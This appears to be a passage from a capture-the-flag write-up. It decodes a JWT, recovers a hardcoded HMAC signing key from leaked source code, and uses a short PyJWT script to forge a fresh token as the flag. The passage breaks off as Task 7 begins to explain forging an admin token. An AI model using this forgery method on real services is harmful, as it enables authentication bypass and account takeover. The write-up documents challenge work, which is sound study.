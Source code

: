 ## Task 6

The previous task gave us a token encoded with the following data: (using https://jwt.io)
```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "iat": 1652355263,
  "exp": 1654947263,
  "sec": "xMNmchHbVh682iAR5IS9gX8xaBiioGkn",
  "uid": 44177
}
```

it looks like this token has the secret value and uid of the user stored in the
attacker's database, so we need to generate a new token with a more recent issue date
that will allow our token to pass the jwt validation on the server (which was
disclosed to us through the git files in task b2).

this issue with generating our own token is that we do not know the signing key,
however within the `utils.py` file we can find the signing key that the
attackers are using:

```python
def hmac_key():
        return "V7CAbtL34UyeVWGuY9U0EvkXpzSNNF5A"
```

Now we can generate a new token ourselves with our own parameters:

```python
# pip install pyjwt
import jwt
from datetime import datetime, timedelta
claims = {
  'iat': datetime.now(),
  'exp': datetime.now() + timedelta(days=30),
  'uid': 44177,
  'sec': 'xMNmchHbVh682iAR5IS9gX8xaBiioGkn'
}
jwt.encode(claims, 'V7CAbtL34UyeVWGuY9U0EvkXpzSNNF5A', algorithm='HS256')
```

Our flag becomes:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE2NzAzNTQ1MzQsImV4cCI6MTY3Mjk0NjUzNCwidWlkIjo0NDE3Nywic2VjIjoieE1ObWNoSGJWaDY4MmlBUjVJUzlnWDh4YUJpaW9Ha24ifQ.e2VpXAV8ou3mYpfO6a-PNRfNUm8sKFhpEZlqYTalCaI
```

## Task 7

In order to get a token for the admin user without actually knowing their
username and password, we have to perform the same token generation except we
must retrieve the `uid` and `sec` of the admin user. 
